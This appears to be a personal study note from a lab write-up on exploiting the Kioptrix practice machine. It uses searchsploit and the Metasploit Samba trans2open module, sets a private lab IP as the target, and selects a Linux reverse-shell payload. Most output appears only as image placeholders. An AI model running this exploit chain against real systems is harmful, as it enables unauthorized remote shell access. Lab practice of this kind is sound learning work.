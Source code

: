 [[Staged vs Non-Staged Payloads]]
### So after we scan our {target} we can see what port running on it and we can identify the vulnerabilities based on the port, then we will use searchsploit to identify the vulnerability through services version.
[[Scanning with Nmap]], [[Enumerating SMB]]

```
┌──(kali㉿kali)-[~]
└─$ searchsploit samba 2.     
---------------------------------------------------------------------- ---------------------------------
 Exploit Title
```

[[Enumerating SSH]] [[Enumerating HTTP and HTTPS Part 1]]
![[Pasted image 20240213214811.png]]

### Now we will use the #METASPLOIT 

**To run the metasploit here's the command.**
```
┌──(kali㉿kali)-[~]
└─$ msfconsole
```

![[Pasted image 20240213215322.png]]

Then we will run this for further searching.

```
msf6 > search trans2open
```
**After running a lot of scanning and enumeration we can see and verify the operating and kernel version of the target system.** 
![[Pasted image 20240213215440.png]]
**Choose the right option for the target system**
![[Pasted image 20240213220510.png]]
Set the RHOST to our target
```
msf6 > set RHOST 192.168.189.130
```
**We can start attacking**
![[Pasted image 20240213220743.png]]

**We got an error while bruteforcing the system due to wrong payload**
```
msf6 > options
```
So we'll run options first.
![[Pasted image 20240213221149.png]]

so we set the payload to linux/86 and hit **Double TAB** to show all of the linux/86 payload

```
msf6 exploit(linux/samba/trans2open) > linux/86/shell_reverse_tcp
```

![[Pasted image 20240213235740.png]]

After we set the payload into linux86/shell_reverse_tcp 
```
msf6 exploit(linux/samba/trans2open) > options
```

![[Pasted image 20240213235917.png]]

**BOOM! WE SUCCESSFULLY EXPLOIT THE KIOPTRIX**
![[Pasted image 20240214000436.png]]